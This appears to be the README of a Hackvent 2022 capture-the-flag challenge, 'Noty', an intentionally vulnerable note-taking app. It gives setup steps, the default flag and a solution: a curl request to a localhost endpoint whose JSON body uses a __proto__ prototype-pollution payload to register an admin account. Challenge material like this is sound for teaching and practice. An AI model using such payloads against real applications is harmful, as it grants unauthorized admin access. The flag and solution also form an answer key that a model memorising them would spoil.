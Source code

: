 # Noty

This is a challenge for the Hackvent 2022.

## Description

A fixed version of Notme. After the previous fiasco with multiple bugs in Notme (Some intended and some not).  
Santa released a now truly secure note taking app for you.  
Also Santa makes sure that this service runs on green energy. No pollution from this app ;)  

## Vulnerability

The application is vulnerable to prototype pollution at the endpoints `POST /api/register` and `POST /api/user/ID`.
This allows a user to create an admin account.

## How to setup

Install the dependencies in the root and frontend folder with `yarn`.
After that build the frontend with `yarn run build`. Then build the backend with `yarn run build`.
Configure the DB connection and the flag within the .env file.
Start the whole thing with `yarn run start`.

## Default Flag

`HV22{P0luT1on_1S_B4d_3vERyWhere}`

## Solution

Pollute the prototype and create a new account with
`curl -H "Content-Type: application/json" "http://localhost:8080/api/register" --data '{"__proto__":{ "role": "admin"}, "username": "asdf", "password": "asdf"}'`  
`
Login and see the flag
